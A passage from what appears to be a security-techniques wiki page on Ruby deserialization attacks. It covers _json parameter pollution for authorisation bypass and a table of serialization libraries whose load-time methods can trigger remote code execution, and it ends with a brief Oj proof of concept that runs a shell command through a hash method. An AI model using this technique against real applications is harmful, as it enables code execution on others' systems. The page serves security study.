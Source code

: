 <br>

### Ruby class pollution

Check how it could be possible to [pollute a Ruby class and abuse it in here](ruby-class-pollution.md).

<br>

### Ruby \_json pollution

When sending in a body some values not hashabled like an array they will be added into a new key called `_json`. However, It’s possible for an attacker to also set in the body a value called `_json` with the arbitrary values he wishes. Then, If the backend for example checks the veracity of a parameter but then also uses the `_json` parameter to perform some action, an authorisation bypass could be performed.

Check more information in the [Ruby \_json pollution page](ruby-_json-pollution.md).

<br>

### Other libraries

This technique was taken[ **from this blog post**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm_source=pocket_shared).

There are other Ruby libraries that can be used to serialize objects and therefore that could be abused to gain RCE during an insecure deserialization. The following table shows some of these libraries and the method they called of the loaded library whenever it's unserialized (function to abuse to get RCE basically):

<table data-header-hidden><thead><tr><th width="179"></th><th width="146"></th><th></th></tr></thead><tbody><tr><td><strong>Library</strong></td><td><strong>Input data</strong></td><td><strong>Kick-off method inside class</strong></td></tr><tr><td>Marshal (Ruby)</td><td>Binary</td><td><code>_load</code></td></tr><tr><td>Oj</td><td>JSON</td><td><code>hash</code> (class needs to be put into hash(map) as key)</td></tr><tr><td>Ox</td><td>XML</td><td><code>hash</code> (class needs to be put into hash(map) as key)</td></tr><tr><td>Psych (Ruby)</td><td>YAML</td><td><code>hash</code> (class needs to be put into hash(map) as key)<br><code>init_with</code></td></tr><tr><td>JSON (Ruby)</td><td>JSON</td><td><code>json_create</code> ([see notes regarding json_create at end](#table-vulnerable-sinks))</td></tr></tbody></table>

Basic example:

```ruby
# Existing Ruby class inside the code of the app
class SimpleClass
  def initialize(cmd)
    @cmd = cmd
  end

  def hash
    system(@cmd)
  end
end

# Exploit
require 'oj'
simple = SimpleClass.new("open -a calculator") # command for macOS
json_payload = Oj.dump(simple)
puts json_payload

# Sink vulnerable inside the code accepting user input as json_payload
Oj.load(json_payload)
```
